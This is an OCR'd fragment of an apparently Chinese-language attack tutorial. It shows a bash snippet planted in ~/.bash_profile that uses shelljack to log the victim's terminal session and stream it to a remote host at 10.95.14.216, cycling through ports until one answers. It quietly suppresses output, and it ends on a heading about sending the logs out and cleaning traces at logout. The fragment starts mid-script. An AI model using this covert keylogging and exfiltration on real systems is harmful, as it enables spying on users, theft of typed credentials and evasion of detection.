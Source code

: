 echo executed

break

else

continue

fi

done

echo exit

fi

实战阶段\~/.bash_profile:

/root/w/shelljack -f /root/local.log \$\$

num=3344

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$\$ 2\>&1)

if [[ \$output = "" ]]

then

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1)

echo 1 \>& /dev/null

else

while true;

do

num=\$[\$num+1]

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$\$ 2\>&1)

if [[ \$output = "" ]]

then

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1) 2\>&1 \>& /dev/null

echo 1 \>& /dev/null

break

else

continue

fi

done

fi

用户登出时外发记录文件及痕迹清理:
